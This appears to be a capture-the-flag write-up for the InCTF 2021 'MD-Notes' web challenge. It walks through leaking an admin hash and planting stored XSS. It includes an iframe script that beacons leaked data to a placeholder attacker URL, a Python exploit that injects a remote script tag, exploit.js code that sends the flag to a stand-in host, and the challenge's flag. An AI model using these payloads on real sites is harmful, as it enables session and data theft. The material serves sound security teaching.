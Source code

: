 ```yaml
---
title: 'MD-Notes - InCTF Internationals 2021'
date: 2021-08-14 12:01:43
author: Yadhu Krishna M
author_url: https://twitter.com/YadhuKrishna_
categories:
 - Web Exploitation
tags:
 - XSS
 - JavaScript
 - InCTFi
---
```


**tl;dr**

+ Leak admin's hash using wildcard target origin in postMessage or by calculating `sha256('')`.
+ Create an XSS payload to read `/api/flag` and send it to attacker server.

<!--more--> 

**Challenge Author:** [imp3ri0n](https://twitter.com/YadhuKrishna_/)
**Challenge Points:** 100
**Challenge Solves**: 46

## Introduction

A brief write-up of MD-Notes, web exploitation challenge from InCTF Internationals 2021. The source code of the challenge can be downloaded from [here](source-code.zip).

We're provided with a markdown editor and an admin bot. The admin bot visits any link that is provided to it.

## Initial Analysis

![Screenshot](md-notes.png)

When a note is previewed, a POST request is made to `/api/filter` which returns a Hash, sanitized text and raw input. Preview is rendered inside an iframe using the following script. 

```javascript=
window.addEventListener("message", (event) => {
    console.log("Previewing..")
	let raw = event.data

	fetch("/api/filter", {
		method: "POST",
		credentials: "include",
		body: JSON.stringify({
			raw: raw
		})
	})
    .then(resp => resp.json())
	.then(response => {
		console.log("Filtered")
		document.body.innerHTML = response.Sanitized
		window.parent.postMessage(response, "*"); 
	}); 
}, false);
```

The preview iframe sends back the filtered input (note that it contains `Hash`). 

To save the post, a request has to be made to `/api/create`, which contains the hash and raw body. The created post is encoded if the hash does not belong to the admin.

```go=    
    // Omitted for brevity
    if createpost.Hash != CONFIG.admin_hash {
        id , _ := uuid.NewV4()
        bucket = id.String()
        data = string(markdown.ToHTML([]byte(sanitize(data)), nil, nil))
    } else {
        data = string(markdown.ToHTML([]byte(data), nil, nil))
    }
```

There's a `/_debug` endpoint that returns the `admin_bucket`. There is also `/api/flag` endpoint which returns the flag if admin token (which is in turn the flag) matches the cookie value. 

## Exploit

From the above observations, we can conclude that:

1. We require XSS to read `/api/flag`.
2. XSS is possible only with the admin's hash.

### Retrieving the Hash

The admin's hash can be retrieved in two ways:

+ By sending the bot to an attacker controlled website that contains an iframe pointing to [/demo](http://web.challenge.bi0s.in:5432/demo) and sending a postMessage to it. 

```html =
    <iframe src="http://web.challenge.bi0s.in:5432/demo" id="frame"></iframe>
    <script>
        let frame = document.getElementById("frame");
        frame.onload = function ()
        {
            frame.contentWindow.postMessage("hello", "*");
        }

        window.addEventListener("message", (event) => {
            navigator.sendBeacon("https://webhookurl/", JSON.stringify(event.data))
        })  
    </script>
```
+ The value of `hash` is always equal to `sha256('')` since `CONFIG.admin_token` will be undefined. That means, the hash will be `e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855`. 

### Creating an XSS payload

Once the hash is retrieved, it is trivial to create a post that contains an XSS payload. 

```bash
curl 'http://web.challenge.bi0s.in:5432/api/create' \
-H 'Cookie: Token=a701285e-2860-4017-6d2b-24865006ba16;' \
--data-raw '{"Hash":"e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855","Raw":"<script>alert(1)</script>"}'
```

Sending a request as above creates a post in admin's bucket. 

```json
{"Status":"success", "PostId":"67912087343", "Bucket":"b5cd7ae0-7b50-7ae0-7ae0-47a03b473015"}
```

## Final Payload

exploit.py
```python=
import requests
from hashlib import sha256

url = "http://web.challenge.bi0s.in:5432"

payload = f"<script src='http://hostname/exploit.js'></script>"

hash = sha256(b'').hexdigest()
cookies = {"Token": "a701285e-2860-4017-6d2b-24865006ba16"}
data = {"Hash": hash, "Raw" : payload }
response = requests.post(url + "/api/create", cookies=cookies, json=data).json()

print ("Exploit created at: ", f'{url}/{response["Bucket"]}/{response["PostId"]}')

```

exploit.js
```javascript=
fetch("/api/flag",{credentials:'include'})
.then((r)=>r.text())
.then((d)=>{
        navigator.sendBeacon("http://hostname/", d)
})
```

## Flag

```
inctf{8d739_csrf_is_fun_3d587ec9}
```
